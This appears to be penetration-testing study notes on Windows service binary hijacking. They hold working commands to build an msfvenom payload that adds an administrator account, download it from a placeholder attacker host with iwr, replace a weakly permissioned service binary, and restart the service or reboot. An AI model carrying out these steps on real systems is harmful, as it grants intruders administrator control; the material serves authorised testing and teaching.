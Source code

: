 ## 16.2.1. Service Binary Hijacking

### Overview
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state. 

A misconfiguration, where a service binary has **Full Control (F)** permissions for low-privileged users (e.g., BUILTIN\Users), allows attackers to replace the binary with a malicious executable. When the service restarts or the system reboots, the malicious binary will execute with the privileges of the service (e.g., LocalSystem).

---

### Step 1: Identify a Vulnerable File
Start by running **WinRecon.ps1** to locate services with weak permissions:

1. **Option 2**: Run Custom Recon - (Select which functions to enable)
2. **Option 17**: Enumerate files and services for **weak permissions**.

This will provide a list of binaries or services that have insecure permissions, such as Full Control for low-privileged users (e.g., BUILTIN\Users).

Example Output:
```plaintext
<service_path> C:\backups\backupsvc.exe NT AUTHORITY\SYSTEM:(F)
                                      BUILTIN\Administrators:(F)
                                      BUILTIN\Users:(F)
```

In this example, the binary `C:\backups\backupsvc.exe` has **BUILTIN\Users:(F)** permissions, making it a candidate for exploitation.

---

### Exploitation Stage

#### Step 2: Generate a Malicious Executable
On our attacker machine (e.g., Kali Linux), use `msfvenom` to generate a malicious executable that creates a new user and adds it to the Administrators group:

```bash
msfvenom -p windows/exec CMD="net user hackeruser Password123! /add && net localgroup administrators hackeruser /add" -f exe-service -o adduser.exe
```

- **Payload**: `windows/exec` runs arbitrary commands.
- **Commands**: 
   - `net user hackeruser Password123! /add`: Creates a new user `hackeruser`.
   - `net localgroup administrators hackeruser /add`: Adds `hackeruser` to the Administrators group.
- **Output**: The malicious binary is saved as `adduser.exe`.

---

#### Step 3: Transfer the Malicious Binary to the Target Machine
Start a Python HTTP server to host the malicious binary:

```bash
python3 -m http.server 80
```

On the target machine, download the malicious executable using PowerShell:

```powershell
iwr -uri http://<attacker_ip>/adduser.exe -OutFile adduser.exe
```

---

#### Step 4: Replace the Service Binary
1. Backup the original binary:
   ```powershell
   move <service_path> <file_name>.bak
   ```
2. Replace it with the malicious binary:
   ```powershell
   move .\adduser.exe <service_path>
   ```

Example:
```powershell
move C:\backups\backupsvc.exe backupsvc.exe.bak
move .\adduser.exe C:\backups\backupsvc.exe
```

---

#### Step 5: Restart the Service
1. **Stop the Service**:
   ```powershell
   sc.exe stop <service_name>
   ```
2. **Start the Service**:
   ```powershell
   sc.exe start <service_name>
   ```

Example:
```powershell
sc.exe stop BackupService
sc.exe start BackupService
```

If the service cannot be restarted manually due to insufficient permissions:

1. **Check Service Startup Type**:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
   ```
   Example:
   ```powershell
   Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupService'}
   ```
   Output:
   ```plaintext
   Name           StartMode
   ----           ---------
   BackupService  Auto
   ```

2. **Reboot the System**:
   Verify that the current user has the `SeShutdownPrivilege`:
   ```powershell
   whoami /priv
   ```
   Example Output:
   ```plaintext
   SeShutdownPrivilege           Shut down the system                 Enabled
   ```

   Reboot the machine:
   ```powershell
   shutdown /r /t 0
   ```

---

#### Step 6: Verify Exploitation
After the reboot or service restart, reconnect to the target machine and check if the user `hackeruser` has been added to the Administrators group:

```powershell
Get-LocalGroupMember administrators
```

**Output**:
```plaintext
ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        <system_name>\Administrator Local
User        <system_name>\hackeruser    Local
```

Example:
```plaintext
User        TARGETSYSTEM\Administrator Local
User        TARGETSYSTEM\hackeruser    Local
```

The output confirms the addition of `hackeruser` to the local Administrators group.

---

### Cleanup
To restore the original state of the service:
1. Delete the malicious binary:
   ```powershell
   del <service_path>
   ```
2. Restore the original binary:
   ```powershell
   move <file_name>.bak <service_path>
   ```
3. Restart the service:
   ```powershell
   sc.exe stop <service_name>
   sc.exe start <service_name>
   ```

Example:
```powershell
del C:\backups\backupsvc.exe
move backupsvc.exe.bak C:\backups\backupsvc.exe
sc.exe stop BackupService
sc.exe start BackupService
```

---

### Notes:
- This method relies on services running with high privileges (e.g., LocalSystem).
- Always back up the original binary to prevent accidental service disruption.
- Avoid rebooting production systems during penetration tests without authorization.

---

### References
- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- Microsoft Documentation on `icacls` and `sc.exe`

---

**End of Service Binary Hijacking Exploit Guide**
